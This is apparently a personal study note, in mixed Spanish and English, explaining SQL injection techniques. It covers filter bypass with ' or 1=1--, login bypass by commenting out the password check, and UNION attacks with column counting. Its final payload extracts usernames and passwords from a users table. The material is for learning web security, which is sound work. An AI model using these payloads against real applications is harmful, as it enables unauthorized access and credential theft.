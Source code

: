 
# SQL Inyeccion

> SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database

## SQL injection examples

### Retrieving hidden data

Por ejemplo cuando se usa ' or 1=1-- 

> SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1

En esta consulta muestras todos los datos ya que comentas lo que sigue despues de --

> The modified query will return all items where either the category is Gifts, or 1 is equal to 1. Since 1=1 is always true, the query will return all items.

### Subverting application logic


If the query returns the details of a user, then the login is successful. Otherwise, it is rejected.

Here, an attacker can log in as any user without a password simply by using the SQL comment sequence -- to remove the password check from the WHERE clause of the query. For example, submitting the username administrator'-- and a blank password results in the following query:


> SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'

Inyectando comentaria la otra parte

> SELECT * FROM users WHERE username = 'administrator'--' AND password = ''

Entonces si logramos comentar el and con '--

### Retrieving data from other database tables ( SQL injection UNION attacks )


When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack

***En resumen tienes que lograr esto***

> SELECT a, b FROM table1 UNION SELECT c, d FROM table2

Desde la peticion incial

> SELECT name, description FROM products WHERE category = 'Gifts'

***Restricciones***
Para que UNION funcione tiene que pasar el mismo numero de columnas en el union y tambien deben de manejar el mismo tipo de datos

#### Paso 1 

Ver cuantas columnas tienen esa tabla  se puede hacer por dos metodos 

Metodo 1

>' ORDER BY 1--
>' ORDER BY 2--
>' ORDER BY 3--

Hasta n cuando de error entonces ya no es valido osea es ir probando.

Metodo 2 

UNION SELECT NULL,NULL,NULL-- ir probando de igual que order by para ver cuantas columnas esta trabajando esa query

#### Paso 2 

Verificar el tipo de datos que maneja cada columna debe de ser del mismo tipo para que no falle ( si se usa burp url encodear antes de mandar)

>'UNION SELECT NULL,NULL,NULL--
>' UNION SELECT 'abcdef',NULL,NULL--

#### Paso 3 

Sacar datos(falta investigar los datos de la base como nombre de tabla etc) 

> ' UNION SELECT username, password FROM users--








